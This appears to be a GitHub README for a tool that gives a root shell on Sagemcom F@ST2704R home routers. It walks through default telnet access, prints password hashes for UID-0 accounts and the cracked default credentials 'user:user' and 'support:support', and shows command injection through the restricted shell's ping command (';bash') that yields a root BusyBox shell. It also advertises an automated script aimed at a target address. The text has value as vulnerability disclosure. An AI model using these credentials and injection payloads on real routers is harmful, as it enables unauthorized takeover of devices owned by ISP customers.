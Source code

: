 # F@ST2704 has a root shell for everybody!

### Included
`root.sh` is a simple shell script that provides the root shell

`lsFileList.txt` is a the complete list of files on the device.

### Usage

`./root.sh [target=192.168.1.1]`

## Long story short

I went back to my parent's place for a few days. I had quite a surprise: they replaced the nice Cisco router I got them by a Sagemcom F@ST2704R . When I asked them why, they told me the local ISP gave F@ST2704R to all their clients in the area. Knowing that was quite a lot of clients I decided to take a look at the device.

### So... How is it?

This piece of hardware/software is crap.

Telnet and ssh is activated by default on the LAN. The admin password is a string of 4 random lowercase letters. Wrong start mate.

I logged on telnet to discover that the provided shell was somewhat limited. Trying basic unix commands would lead to an error.

```
> ls
telnetd:error:774.006:processInput:406:unrecognized command ls
```

Let's see what we have

```
> help
?
help
logout
exit
quit
reboot
adsl
xdslctl
xtm
brctl
cat
loglevel
logdest
virtualserver
ddns
df
dumpcfg
dumpmdm
dm
meminfo
psp
kill
dumpsysinfo
dnsproxy
syslog
echo
ifconfig
ping
ps
pwd
sntp
sysinfo
tftp
wlctl
arp
defaultgateway
dhcpserver
dns
lan
lanhosts
passwd
ppp
restoredefault
route
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan
mcpctl
```


No ls, no cd... I would need more than that. Still, I got cat!
From there, I grab the `/etc/passwd` file. There were 2 users I found interesting.

```
support:5IkwiJv9RNzV.:0:0:Technical Support:/:/bin/sh
user:75bUXAuHldJ82:0:0:Normal User:/:/bin/sh
```

We can see their UID and GID is 0... who the hell gives admin privileges to a user account?????
Cracking the hashes with the tool john, we find the credentials are

```
support:support
user:user
```

The admin account had at least the decency of using a randomly generated password instead of a hardcoded one...

Trying to log with the support account leads to a dead end, access is denied for some reason.
This is not the case with the "user" account. Typing help in the user prompt gives us a really short list of commands that can be used by the user account.

```
> help
?
help
logout
exit
quit
reboot
dnsproxy
ping
lanhosts
passwd
restoredefault
save
swversion
uptime
cfgupdate
swupdate
exitOnIdle
wan
```

### Let's explore the firmware for more info!

Unfortunately, the F@ST2704R firmware is not available to download, but [the F@ST2704 is](http://support.sagemcom.com/site/mo/broadband-access-9/sagemcom-f-st-2704-etisalat-1035/driver). It can't be THAT different eh?
wget this stuff, and binwalk the shit out of it!
Not so surprisingly, the binairies we want exist in the /bin folder, the shell we're provided just can't get to it. We must break the jail.

### Breaking the jail

We have access to ping...

 ```
 > "ping -c 1 127.0.0.1"
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.866 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.866/0.866/0.866 ms
```

I wonder if... Let's try some semicolon magic!

```
> "ls"
telnetd:error:997.792:processInput:406:unrecognized command ls
 >
 >
 > "ping -c 1 127.0.0.1;ls"
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.948 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.948/0.948/0.948 ms
bin      etc      mnt      sbin     usr      webs-EN
data     lib      opt      sys      var      webs-FR
dev      linuxrc  proc     tmp      webs
```

Alright! this way I can get a real shell

```
 > "ping -c 1 127.0.0.1;bash"
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: seq=0 ttl=64 time=0.459 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 0.459/0.459/0.459 ms


BusyBox v1.17.2 (2013-09-30 17:48:17 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

"#" 
```

 Using the username user and the default password user followed by this ping/semicolon loophole gives us access to a shell with administrative rights more easiy than brute-forcing the admin's password (default 4 letters, can be changed for another one up to 16 letters).

 Automated shell sript included lucky bastard!